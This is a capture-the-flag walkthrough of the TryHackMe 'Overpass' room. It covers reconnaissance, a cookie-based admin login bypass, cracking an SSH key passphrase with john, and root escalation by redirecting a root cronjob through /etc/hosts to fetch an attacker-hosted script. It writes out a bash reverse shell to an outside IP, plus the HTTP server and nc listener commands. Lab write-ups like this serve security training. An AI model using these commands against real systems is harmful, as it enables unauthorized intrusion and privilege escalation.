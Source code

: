```yaml
---
title: Tryhackme - Overpass
layout: post
categories:
- TryHackMe
tag:
- security,
- easy,
- cron,
- owasp top 10
image: "/assets/img/overpass.png"
image_alt: overpass
---
```


Overpass is easy room to get you started in CTF's.

## Recon
The first thing you will do is scan the target ip address to find open ports. We do it using **`Nmap`**.

```
$ nmap -sSV -v 10.8.81.166
```
![nmap](/assets/img/tryhackme/overpass/nmap.png)

As we see here, 2 ports are open. One is **`HTTP:80`** and the other is **`SSH:22`**. We can make a few guesses based on this. I think we should somehow find the necessary information for ssh connection from this site. And we have to get into the target machine using ssh. But this is just a guess for now.
Anyway, let's go to the website first and see what's up.

![homepage](/assets/img/tryhackme/overpass/homepage.png)

Overpass is a password manager. We saw 2 more pages on the main page, one "About Us" and the other "Downloads". Let's examine both.

### About Us
![aboutus](/assets/img/tryhackme/overpass/aboutus.png)

Here we see a few names that may be useful to us in the future.

### Download
![download](/assets/img/tryhackme/overpass/download.png)

We see two files here, one is the source code of overpass and the other is the script that runs this code.
We couldn't find much, let's look at the source codes of the pages.

![home](/assets/img/tryhackme/overpass/home_source.png)

This is really fun.
We couldn't find anything remarkable in the source code of the About Us and Downloads pages.

Let's do a gobuster scan to see if there are other pages on the site.
```
$ gobuster dir -u 10.10.79.124 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
```

![aboutus](/assets/img/tryhackme/overpass/gobuster.png)

We found an interesting place **`/admin/`** page here, let's examine it.
I tried a few login attempts first, but it didn't work.

![aboutus](/assets/img/tryhackme/overpass/admin.png)

Let's take a look at the source code of the admin page.
Maybe we can brute force using the information here.

![aboutus](/assets/img/tryhackme/overpass/admin_id.png)

And there are several javascript files, let's examine them.

![aboutus](/assets/img/tryhackme/overpass/admin_file.png)

The **`main.js`** contains nothing but the hello world output.

![aboutus](/assets/img/tryhackme/overpass/main.png)

Let's examine **`login.js`** now.

![aboutus](/assets/img/tryhackme/overpass/login.png)

We found something here. A login function has been placed here. It says that if you enter wrong information, you will get incorrect credentials, but if it is entered correctly, cookie settings will be set as **`SessionToken and status0Cookie`**. Let's try to login using this cookie information.

![aboutus](/assets/img/tryhackme/overpass/settings.png)

After entering the information, we refresh the page and we are inside.
We come across an **`SSH key`**, but there is an article before it.

![aboutus](/assets/img/tryhackme/overpass/admin_on.png)

Paradox was annoyed that James kept forgetting the password. And as punishment, he wrote the password as SSH Key.

![aboutus](/assets/img/tryhackme/overpass/ssh.png)

Let's find james' SSH password.
To crack the password of an rsa key, we need to follow these steps.
We create **`id_rsa file using nano`**. Copy and paste the rsa private key information into it. Then we change the permission settings using **`chmod`** so that ssh can use it.
Then we use **`ssh2john`** to bring this ssh key in a way that joh can crack, and then we find the password using **`john`**.

```
$ nano id_rsa
$ chmod 600 id_rsa
$ ssh2john id_rsa > hash.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

And we find the password **`j****13`**
Now we can connect to james using this information.

```
$ ssh -i id_rsa james@10.10.79.124
```

And we're inside

![aboutus](/assets/img/tryhackme/overpass/james.png)

Let's see what's in james' folder.

```
ls -la
```

![aboutus](/assets/img/tryhackme/overpass/ls.png)

There are a few files that caught our attention **`todo.txt, user.txt`**
**`user.txt : user flag`**

![aboutus](/assets/img/tryhackme/overpass/user_flag.png)

Now let's take a look at **`todo.txt`**.

![aboutus](/assets/img/tryhackme/overpass/todo.png)

Important things are being talked about here. James keeps a password around here, but he said he used his own password manager.
There was something he wanted to talk to Pardox about. He also says how the build script works automatically in the system.

I examined the files again using **`ls -la`** and there is another file called .overpass, and when I looked inside, I found something like this.

![aboutus](/assets/img/tryhackme/overpass/pass.png)

This must be the password that James mentioned in todo.txt, but we don't know how he encrypted it. But he told us they did it using their own password manager. So why don't we go back to the website and examine the source code of the overpass?
What I noticed when I reviewed the code is this.

![aboutus](/assets/img/tryhackme/overpass/source.png)

The algorithm they use according to the code they wrote is **`rotate-47`**

![aboutus](/assets/img/tryhackme/overpass/rot.png)

And here we found a password but I didn't understand where to put it.

But if we need to go back to todo.txt, James was talking about the continuous and automatic loading of the application there, why don't we look at the cronjob.

```
$ cat /etc/crontab
```

![aboutus](/assets/img/tryhackme/overpass/cron.png)

And here we get important information. As we can see, the root user automatically runs the file `overpass.thm/downloads/src/buildscript.sh` as **`cronjob`**.
In other words, a bash file is running automatically in the system, if we can change this file, we can place our own reverse shell.
I tried to open and change the file several times, but I couldn't do anything because it exceeded my authorization limits. But there was one thing I missed, overpass.thm is a hostname and if we manage to change this hostname and enter our own machine information, I can run my own buildscript.sh file.
For this I first check the contents of  **`/etc/hosts`**.

![aboutus](/assets/img/tryhackme/overpass/hosts.png)

Interestingly, James has the ability to modify this file.
Using my own machine ip, I change the overpass.thm line to**`"10.8.81.166 overpass.thm"`**
Then I will do the following in order on my own machine. I will create the /downloads/src/buildscript.sh file. And I will write revershell inside this file, then I will open an http.server just outside the downloads folder. At the same time, I will open a listener for nc using the same port as the port I entered in revershell. Then cronjab will connect to my machine and get the downoads/src/buildscript.sh file and then run it. The revershell inside it will also work and boom we'll go inside.

```
$ bash -i >& /dev/tcp/10.8.81.166/4444 >&1
```

```
$ mkdir downloads
$ cd downloads
$ mdir src
$ cd src
$ nano buildscript.sh
$ cd ../..
$ python3 -m http.server 80
```

```
$ nc -nlvp 4444
```
We are inside.

![aboutus](/assets/img/tryhackme/overpass/root.png)

And root flag .

![aboutus](/assets/img/tryhackme/overpass/root_flag.png)


It was such a fun CTF. I hope you learned something and had fun too. But that’s it for now till next time take care.
